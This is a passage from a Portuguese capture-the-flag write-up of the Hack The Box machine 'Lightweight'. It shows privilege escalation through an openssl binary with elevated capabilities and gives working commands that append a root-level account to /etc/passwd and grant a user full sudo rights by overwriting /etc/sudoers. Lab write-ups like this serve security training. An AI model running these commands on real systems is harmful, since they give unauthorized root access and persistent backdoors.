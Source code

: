 Ai está o exemplo de como podemos ler arquivos que somente o root lê

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_lendo.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_lendo1.png)

## 2º - Escrevendo arquivos como root (passwd)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_a.png)

A possibilidade de escrever e ler arquivos nos da diversas possibilidades de virar root na máquina. Podemos adicionar um cronjob, mudar o arquivo sudoers, adicionar senha no passwd...

Vamos escrever um login no passwd e conectar virar root, primeiro vamos fazer uma cópia do passwd na pasta de trabalho

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_escrever.png)

Agora adicionamos nossa senha de root no arquivo

`echo "hacker:aaDUnysmdx4Fo:0:0:hacker:/root:/bin/bash" >> passwd.backup`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_escrever1.png)

Agora sobrescrevemos o arquivo passwd original

`cat passwd.backup | ./openssl enc -out /etc/passwd`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_escrever3.png)

Agora viramos root!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_escrever4.png)

## 3º - Escrevendo arquivos como root (sudoers)

Vamos modificar o sudoers também, adicionando capacidades para o usuário ldapuser1

```
./openssl base64 -in /etc/sudoers | base64 -d > sudoers.backup
echo "ldapuser1    ALL=(ALL)       ALL" >> sudoers.backup
cat sudoers.backup | base64 | ./openssl enc -d -base64 -out /etc/sudoers
```

Viramos root!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_a1.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lightwight/L_user.png)